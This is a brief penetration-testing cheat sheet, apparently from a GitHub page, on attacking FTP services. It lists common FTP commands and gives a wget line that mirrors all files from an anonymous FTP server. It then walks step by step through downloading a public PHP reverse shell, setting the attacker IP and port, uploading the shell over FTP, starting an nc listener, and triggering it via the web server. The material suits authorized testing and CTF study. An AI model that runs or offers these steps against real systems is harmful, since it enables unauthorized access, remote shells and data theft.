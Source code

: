 # Post-Exploitation
## Common FTP Commands

Command | 	Description	| Usage
lcd	| Change local directory.	| lcd /path/to/directory
cd	 | Change server directory.	| cd /path/to/directory
ls	 | List server directory files.	| ls
get	| Download file from server.	| get filename.txt
mget	| Download multiple files.	| mget *.txt
put	| Upload file to server.	| put filename.txt
mput	| Upload multiple files.	| mput *.txt
bin	| Set binary transfer mode.	| bin
ascii	| Set ASCII transfer mode.	| ascii
quit	| Exit FTP client.	| quit

## Download All Files
You can download all files hosted on the FTP service with the following command:
```
wget -m ftp://anonymous:anonymous@X.X.X.X
```
## Reverse Shell over Website
If the target allows users to access the FTP directory over the web and the web server can run PHP files, you can install the exploit for the reverse shell and gain access.

1 Download the payload
```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
```
2. Edit some variables in shell.php
```
$ip = '<your-local-ip>';
$port = 1234;
```
3. Connect to the FTP server and upload the payload.
```
ftp <target-ip>

# Upload the payload you downloaded
ftp> put shell.php
```
4. Get a shell
Firstly, you need to open a listener on your local machine.
```
nc -lvnp 1234
```
Then, in a web browser, navigate to "http://target.com/path/to/ftp/shell.php". This should trigger the exploit and establish a connection back to your listener, providing you with a shell on the target system.

